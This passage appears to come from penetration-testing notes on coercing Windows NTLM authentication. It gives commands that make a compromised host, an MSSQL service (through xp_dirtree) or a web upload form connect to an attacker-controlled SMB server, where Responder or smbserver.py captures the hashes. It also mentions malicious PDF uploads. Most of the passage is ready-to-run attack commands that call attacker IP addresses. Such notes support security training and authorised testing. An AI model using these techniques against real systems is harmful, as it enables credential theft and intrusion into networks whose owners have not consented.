* [**PushSubscription Abuse**](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/pushsubscription-abuse)

These techniques rely on similar principles, abusing Windows protocols to force systems to authenticate to attacker-controlled hosts.

### Direct Authentication

We can force direct authentication from a compromised host by connecting to an attacker-controller SMB server.


```bash
# Launch the SMB server (attacking machine)
$ sudo responder -I tun0

# Connect to a non-existent share to force authentication (compromised host)
C:\Windows\system32>dir \\192.168.45.186\test
dir \\192.168.45.186\test
Access is denied.
```


#### MSSQL

If we gain access to a MSSQL service, we can coerce auth from the account running the service which by default is the computer account.

```bash
# Coerce auth from within the MSSQL service
> exec xp_dirtree "\\\\172.16.117.30\\SupportFiles"

# Capture the NTLM hash
sudo smbserver.py share SupportFiles -smb2support
```

### Web Server Uploads

If we haven't achieved RCE, we could check for a file upload form in a web application on a Windows server and enter a non-existing file with a UNC path such as


```
\\<attacker-IP>\share\nonexistent.txt
```


If the web application supports SMB uploads, the Windows server will authenticate to our SMB server. The UNC Path Interpretation works as follows:

* Powershell interprets UNC paths directly: `\\server\share`.
* Web requests interpret UNC paths according to the programming language used. Most of them treat  `\` as an escape character, thus, it needs to be doubled in order to make it a literal: `\\\\server\\share`.

<figure><figcaption></figcaption></figure>

#### BadPDF

If a file upload functionality is present, we can create and upload a malicious PDF file and force SMB authentication to our attacking machine. See more in: [File Uploads](../../../web/file-uploads/) → [PDFs](../../../web/file-uploads/#pdfs).
